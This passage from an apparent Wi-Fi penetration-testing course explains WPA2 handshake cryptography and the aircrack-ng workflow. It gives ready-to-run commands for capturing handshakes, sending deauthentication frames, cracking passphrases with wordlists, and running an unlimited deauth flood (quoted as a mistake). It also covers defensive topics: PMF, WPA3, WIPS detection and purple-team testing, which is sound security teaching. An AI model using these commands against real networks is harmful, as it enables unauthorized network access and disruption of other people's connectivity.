Verify whether the capture file contains authentication frames:

```bash
aircrack-ng red_team_capture-01.cap
```

---

# 13. WPA/WPA2 Authentication

Understanding the cryptographic mechanics of the **4-Way EAPOL Handshake** is mandatory for professional wireless pentesting:





### The Cryptographic Equation:
1. **PMK Derivation:**
   $$\text{PMK} = \text{PBKDF2}(\text{Passphrase}, \text{SSID}, 4096 \text{ iterations}, 256 \text{ bits})$$
2. **PTK Derivation:**
   $$\text{PTK} = \text{PRF-512}(\text{PMK}, \text{"Pairwise key expansion"}, \text{Min/Max(MACs)}, \text{Min/Max(Nonces)})$$

> [!IMPORTANT]
> **What the Handshake Contains:** The 4-Way Handshake does **not** contain the plaintext passphrase. It contains the public nonces ($\text{ANonce}$, $\text{SNonce}$), MAC addresses, and the cryptographic Message Integrity Code ($\text{MIC}$). An offline dictionary attack guesses candidate passwords, derives candidate $\text{PTK}$s, calculates candidate $\text{MIC}$s, and checks for an exact match against Message 2.

---

# 14. Handshake Capture

To successfully capture a 4-way handshake, keep `airodump-ng` running locked onto the target AP:

```bash
sudo airodump-ng -c 11 --bssid C8:9C:BB:BD:30:99 -w red_team wlan0mon
```

When an associated client reconnects, the top-right header of `airodump-ng` updates with a notification:

```text
[ WPA Handshake: C8:9C:BB:BD:30:99 ]
```

Once this indicator appears, your `.cap` file contains all cryptographic material required for offline auditing.

---

# 15. Controlled Deauthentication

In authorized assessments, waiting hours for a user to naturally disconnect and reconnect is often impractical. Pentesters utilize **controlled 802.11 deauthentication frames** via `aireplay-ng` to force a reconnection:

```text
        Access Point
             |
             |  Spoofed Deauth Frame (Type 0x00, Subtype 0x0C)
             v
      Wireless Client
             |
             X  (Briefly Disconnected)
             |
             v  Automatic Reconnection
      4-Way EAPOL Handshake Generated!
```

### Controlled Execution Syntax:

```bash
sudo aireplay-ng \
  --deauth 5 \
  -a C8:9C:BB:BD:30:99 \
  -c 44:6D:57:20:19:B2 \
  wlan0mon
```

### Parameter Breakdown:
* **`--deauth 5`**: Transmits exactly 5 deauthentication frames.
* **`-a C8:9C:BB:BD:30:99`**: Target Access Point BSSID.
* **`-c 44:6D:57:20:19:B2`**: Specific associated station MAC address to test.
* **`wlan0mon`**: Monitor mode interface.

> [!CAUTION]
> **Never use `--deauth 0`!** Passing `0` sends continuous, infinite deauthentication floods, resulting in an unlawful Denial of Service (DoS) attack. Always use small, discrete counts (`--deauth 5` to `10`).

---

# 16. Why Deauthentication Matters

Legacy 802.11 management frames (such as deauthentication and disassociation frames) are transmitted completely **in the clear without cryptographic authentication or encryption**.

Any wireless radio in range can spoof the MAC address of an Access Point and broadcast forged deauthentication frames to clients:



### The Defensive Solution: 802.11w PMF
The IEEE ratified **802.11w Protected Management Frames (PMF)** to eliminate this vulnerability. PMF cryptographically signs unicast and broadcast management frames using the **BIP (Broadcast Integrity Protocol)**. Forged deauthentication frames are rejected by the client station.

---

# 17. Password Auditing

Once an authorized capture file contains a validated 4-way handshake, execute offline cryptanalysis using `aircrack-ng`:

```bash
aircrack-ng red_team-01.cap -w /usr/share/wordlists/rockyou.txt
```

```text
                                 Aircrack-ng 1.7

                   [00:00:18] 452,190 / 14,344,384 keys tested (32,400 k/s)

                   Current passphrase: dragon123

      Master Key     : D4 8A 19 E0 22 F1 B4 08 92 73 11 05 9C BB AA 14
      Transient Key  : 7F 2B 44 91 00 C2 8A 51 33 18 90 2D 4E 66 B1 09

>>> KEY FOUND! [ RedTeam@2024_#$ ] <<<
```

---

# 18. RockYou

Kali Linux bundles the standard `rockyou.txt` dictionary:

```bash
# Decompress rockyou.txt
sudo gzip -dk /usr/share/wordlists/rockyou.txt.gz

# Verify file integrity
ls -lh /usr/share/wordlists/rockyou.txt
```

---

# 19. Custom Wordlists

In corporate environments, standard dictionaries often fail because organizations use custom naming conventions. Generate targeted candidate lists:

```bash
printf '%s\n' \
'password123' \
'RedTeam@2024_#$' \
'LabPassword2026' \
'WirelessLab123' \
> ~/lab-wordlist.txt
```

Execute `aircrack-ng` against your custom list:

```bash
aircrack-ng red_team-01.cap -w ~/lab-wordlist.txt
```

---

# 20. Why Password Length Matters

Due to PBKDF2 computing 4,096 SHA-1 iterations per candidate:

$$\text{Time to Test} = \text{Candidates} \times \frac{4096 \text{ Hashes}}{\text{GPU/CPU Rate}}$$

* **`password` (8 chars, dictionary):** Cracked in 0.01 seconds.
* **`RedTeam@2024_#$7x` (16 chars, high entropy):** Computationally infeasible to crack via offline dictionary search.

---

# 21. Dictionary Attack

A dictionary attack iterates through pre-compiled lists of likely passwords. If the target passphrase is not present in the dictionary or mutated by rules, the attack exhausts without recovering the key.

---

# 22. Brute Force

Exhaustive combinatorial brute-force across the full 8-to-63 character WPA2-PSK keyspace ($94^{12}+$) is computationally impossible against PBKDF2. Passphrase length is the primary defensive barrier.

---

# 23. WPA2 vs WPA3

| Security Feature | WPA2-Personal | WPA3-Personal |
| :--- | :--- | :--- |
| **Authentication Protocol** | 4-Way Handshake with PSK | **SAE (Dragonfly Handshake)** |
| **Offline Dictionary Attacks** | **Vulnerable** (Handshake captured) | **Immune** (Zero-Knowledge Proofs) |
| **Forward Secrecy** | ❌ None (Past captures decrypted if PSK found) | ✅ Complete (Ephemeral Diffie-Hellman keys) |
| **Management Frames** | Optional (802.11w rarely enforced) | **Mandatory PMF (Protected Management Frames)** |
| **Minimum Key Size** | 8 characters | 128-bit security (WPA3-Enterprise uses 192-bit) |

---

# 24. PMF

Protected Management Frames (IEEE 802.11w) protect unicast and broadcast management frames from spoofing and sniffing. When PMF is set to `Required`, deauthentication attacks fail completely.

---

# 25. Hidden SSIDs

Disabling SSID broadcasts ("Hidden Networks") does **not** provide security.

When an authorized client attempts to connect, it broadcasts **Probe Requests** containing the network name in cleartext. Furthermore, the AP includes the SSID in **Association Responses**. Airodump-ng unmasks hidden SSIDs automatically as soon as a client connects.

---

# 26. Wireless Clients

Airodump-ng displays associated clients under the lower table:

```text
BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
C8:9C:BB:BD:30:99  44:6D:57:20:19:B2  -48   54 -54      0       240  Associated RedTeam-Lab
```

This correlates:
1. Target Access Point BSSID.
2. Station Client hardware MAC address.
3. Signal strength and packet transmission rates.

---

# 27. Channel Locking

When `airodump-ng` runs without `-c`, it hops across all channels, missing up to 90% of packets on any specific channel. Always lock your capture interface to the target channel:

```bash
sudo airodump-ng -c 11 --bssid C8:9C:BB:BD:30:99 wlan0mon
```

---

# 28. Wireless Adapter Problems

When wireless adapters fail to respond:

```bash
# 1. Check logical status
iw dev

# 2. Check hardware interfaces
sudo airmon-ng

# 3. Check kernel driver module
sudo ethtool -i wlan0

# 4. Check USB subsystem enumeration
lsusb
```

---

# 29. Monitor Mode Doesn't Start

If `airmon-ng start wlan0` fails or hangs:

```bash
# Forcefully terminate interfering network processes
sudo airmon-ng check kill

# Re-enable monitor mode
sudo airmon-ng start wlan0

# Verify monitor status
iw dev
```

---

# 30. NetworkManager Recovery

After completing an audit, restore normal desktop networking services:

```bash
# 1. Stop monitor mode interface
sudo airmon-ng stop wlan0mon

# 2. Restart NetworkManager service
sudo systemctl restart NetworkManager

# 3. Verify normal managed mode connection
nmcli device status
```

---

# 31. Complete Lab Workflow



---

# 32. Practical Lab

Execute this structured end-to-end laboratory sequence on your authorized equipment:

```bash
# Step 1: Verify adapter interface
iw dev

# Step 2: Check suite documentation
airmon-ng --help

# Step 3: Check and kill interfering processes
sudo airmon-ng check kill

# Step 4: Enable monitor mode
sudo airmon-ng start wlan0

# Step 5: Verify monitor interface
iw dev

# Step 6: Scan radio spectrum
sudo airodump-ng wlan0mon

# Step 7: Target lab AP on Channel 11
sudo airodump-ng -c 11 --bssid C8:9C:BB:BD:30:99 -w lab_audit wlan0mon

# Step 8: Send 5 controlled deauthentication frames
sudo aireplay-ng --deauth 5 -a C8:9C:BB:BD:30:99 -c 44:6D:57:20:19:B2 wlan0mon

# Step 9: Verify handshake capture
aircrack-ng lab_audit-01.cap

# Step 10: Audit passphrase using custom lab wordlist
aircrack-ng lab_audit-01.cap -w ~/lab-wordlist.txt

# Step 11: Cleanup and restore networking
sudo airmon-ng stop wlan0mon
sudo systemctl restart NetworkManager
```

---

# 33. Wireshark Analysis

Analyze your `.cap` files in Wireshark to inspect 802.11 frame internals:

```bash
wireshark lab_audit-01.cap
```

### Essential 802.11 Wireshark Display Filters:

| Wireshark Display Filter | Target Traffic Analyzed |
| :--- | :--- |
| **`wlan`** | All 802.11 wireless frames |
| **`eapol`** | 4-Way WPA/WPA2 authentication handshakes |
| **`wlan.fc.type_subtype == 0x08`** | Beacon frames |
| **`wlan.fc.type_subtype == 0x04`** | Probe Requests |
| **`wlan.fc.type_subtype == 0x05`** | Probe Responses |
| **`wlan.fc.type_subtype == 0x00`** | Association Requests |
| **`wlan.fc.type_subtype == 0x0c`** | Deauthentication frames |
| **`wlan.fc.type_subtype == 0x0a`** | Disassociation frames |

---

# 34. Defensive Detection

Defenders deploy **Wireless Intrusion Prevention Systems (WIPS)** to monitor the RF spectrum:

```text
Wireless RF Airspace
         |
         v
Sensor Nodes (Continuous Monitoring)
         |
         +---- Detect High-Frequency Deauthentication Bursts
         |
         +---- Detect Unregistered BSSIDs (Rogue APs)
         |
         +---- Alert on Duplicate SSIDs (Evil Twins)
         |
         v
Enterprise SIEM / SOC Alert
```

---

# 35. Purple-Team Exercise

Collaborative wireless assessment lifecycle:

1. **Offensive Execution:** Transmit 5 controlled deauth frames targeting a lab client.
2. **Defensive Telemetry:** Inspect WIPS alerts. Did the system log the event as an 802.11 DoS attempt?
3. **Investigation:** Can the SOC pinpoint the BSSID, client MAC, and radio channel involved?
4. **Hardening:** Enable **802.11w PMF (Required)** on the Access Point.
5. **Retest:** Re-execute deauth testing. Verify that the client remains securely connected and that frames are discarded.

---

# 36. Wireless Attack Surface

A comprehensive wireless audit assesses all dimensions of the RF attack surface:

```text
                 Wi-Fi Attack Surface
                         |
       +-----------------+-----------------+
       |                 |                 |
  Encryption        Management        Architecture
       |                 |                 |
   WPA2-PSK          PMF/802.11w         802.1X
       |                 |                 |
       +-----------------+-----------------+
                         |
                  Infrastructure
                         |
           +-------------+-------------+
           |                           |
        Rogue APs                  WPS PINs
```

---

# 37. WPS

Wi-Fi Protected Setup (WPS) allows simplified connection using an 8-digit decimal PIN. Due to a protocol design flaw (evaluating the PIN in two separate halves: 4 digits and 3 digits + checksum), tools like `reaver` and `bully` crack the PIN in hours.

> [!TIP]
> **Defensive Rule:** Always disable WPS permanently on all enterprise and residential access points.

---

# 38. Evil Twin Concept

An **Evil Twin** is an unauthorized rogue access point configured with an identical SSID and encryption profile as a legitimate enterprise network. Attackers utilize high-gain directional antennas and deauthentication floods to force clients onto the rogue AP, capturing credentials or establishing a Man-in-the-Middle (MitM) position.

---

# 39. Enterprise Wi-Fi

Enterprise networks discard Pre-Shared Keys in favor of **WPA2/WPA3-Enterprise (802.1X)**:



---

# 40. Wireless Pentest Methodology

Professional engagements adhere to a rigorous 7-phase methodology:

1. **Phase 1 (Authorization):** Execute Rules of Engagement (RoE), verify physical scope and target BSSIDs.
2. **Phase 2 (Reconnaissance):** Passive 2.4/5 GHz spectrum survey using `airodump-ng` and Kismet.
3. **Phase 3 (Validation):** Audit encryption standards, verify PMF enforcement, check for WPS exposure.
4. **Phase 4 (Controlled Exploitation):** Capture 4-way handshakes under strict deauth count limits.
5. **Phase 5 (Evidence Collection):** Store cryptographic captures, timestamps, and signal telemetry.
6. **Phase 6 (Cleanup):** Restore wireless interfaces, restart system networking daemons.
7. **Phase 7 (Reporting):** Document technical findings, map risks to NIST SP 800-153 guidelines, and formulate hardening recommendations.

---

# 41. Common Mistakes

* **Mistake 1:** Running commands against managed interface `wlan0` instead of monitor mode `wlan0mon`.
* **Mistake 2:** Omitting `airmon-ng check kill`, causing NetworkManager to interrupt captures.
* **Mistake 3:** Failing to lock channels (`-c`), causing packet loss during the 4-way exchange.
* **Mistake 4:** Using continuous deauthentication (`--deauth 0`), which constitutes an unlawful DoS.
* **Mistake 5:** Assuming a `.cap` file has a valid handshake without verifying via `aircrack-ng`.
* **Mistake 6:** Leaving the wireless card in monitor mode after testing.

---

# 42. Essential Commands Cheat Sheet

```bash
# ==============================================================================
# 🎯 INTERFACE MANAGEMENT & MONITOR MODE
# ==============================================================================
sudo airmon-ng                            # List recognized wireless adapters
sudo airmon-ng check kill                 # Terminate interfering network processes
sudo airmon-ng start wlan0                 # Enable monitor mode on wlan0 (creates wlan0mon)
sudo airmon-ng stop wlan0mon              # Disable monitor mode
sudo systemctl restart NetworkManager     # Restore normal Linux desktop networking

# ==============================================================================
# 📡 RECONNAISSANCE & CAPTURE
# ==============================================================================
sudo airodump-ng wlan0mon                 # General spectrum reconnaissance
sudo airodump-ng -c 11 --bssid C8:9C:BB:BD:30:99 -w capture wlan0mon # Targeted capture

# ==============================================================================
# ⚡ INJECTION & DEAUTHENTICATION
# ==============================================================================
sudo aireplay-ng --deauth 5 -a <BSSID> -c <CLIENT_MAC> wlan0mon # Controlled client deauth

# ==============================================================================
# 🔑 CRYPTANALYSIS & DECRYPTION
# ==============================================================================
aircrack-ng capture-01.cap                # Inspect capture and verify handshake
aircrack-ng capture-01.cap -w rockyou.txt # Dictionary attack against captured handshake
airdecap-ng -p <PASSPHRASE> -e <ESSID> capture-01.cap # Decrypt packets into clean PCAP
```

---

# 43. Your Original Workflow — Corrected

### Legacy Suboptimal Sequence:
```bash
# Inefficient / Deprecated syntax:
airmon-ng check
airmon-ng check kill
airmon-ng start wlan0
ifconfig
airodump-ng wlan0mon
sudo su
airodump-ng -w red_team -c 11 --bssid C8:9C:BB:BD:30:99 wlan0mon
aireplay-ng --deauth 0 -a C8:9C:BB:BD:30:99 wlan0mon     # WARNING: Unlimited deauth DoS!
aircrack-ng capfile -w /usr/share/wordlists/rockyou.txt
echo "RedTeam@2024_#$" >> /usr/share/wordlists/rockyou.txt # WARNING: Mutating system files!
airmon-ng stop wlan0mon
systemctl restart NetworkManager
```

### Modern Industry-Standard Workflow:
```bash
# 1. Terminate interfering daemons
sudo airmon-ng check kill

# 2. Put adapter into monitor mode
sudo airmon-ng start wlan0

# 3. Targeted spectrum capture on Channel 11
sudo airodump-ng -c 11 --bssid C8:9C:BB:BD:30:99 -w red_team_lab wlan0mon

# 4. Controlled deauth (5 frames targeting specific client)
sudo aireplay-ng --deauth 5 -a C8:9C:BB:BD:30:99 -c 44:6D:57:20:19:B2 wlan0mon

# 5. Verify handshake existence
aircrack-ng red_team_lab-01.cap

# 6. Audit against dedicated project wordlist
aircrack-ng red_team_lab-01.cap -w ~/lab-wordlist.txt

# 7. Safe cleanup
sudo airmon-ng stop wlan0mon
sudo systemctl restart NetworkManager
```

---

# 44. What You Should Master

By concluding this curriculum, you possess the knowledge to:
* Articulate 802.11 PHY layers, non-overlapping channels (1, 6, 11), and 2.4/5/6 GHz spectrum dynamics.
* Explain the mathematical mechanics of the 4-Way Handshake ($\text{PMK}$, $\text{PTK}$, $\text{ANonce}$, $\text{SNonce}$, $\text{MIC}$).
* Conduct focused, non-disruptive reconnaissance and targeted packet capture using `airodump-ng`.
* Analyze `.cap` files in Wireshark utilizing `wlan` and `eapol` display filters.
* Differentiate WPA2 vulnerabilities from WPA3-SAE Dragonfly zero-knowledge defenses.
* Enforce **802.11w Protected Management Frames (PMF)** to eliminate deauthentication threats.
* Implement **WPA2/WPA3-Enterprise 802.1X** with RADIUS authentication for enterprise defense.

---

# Final Mental Model



True wireless security mastery connects the full spectrum:

$$\text{Radio Frequency} + \text{802.11 Framing} + \text{4-Way Cryptography} + \text{Management Protection (PMF)} + \text{Enterprise Identity (802.1X)}$$
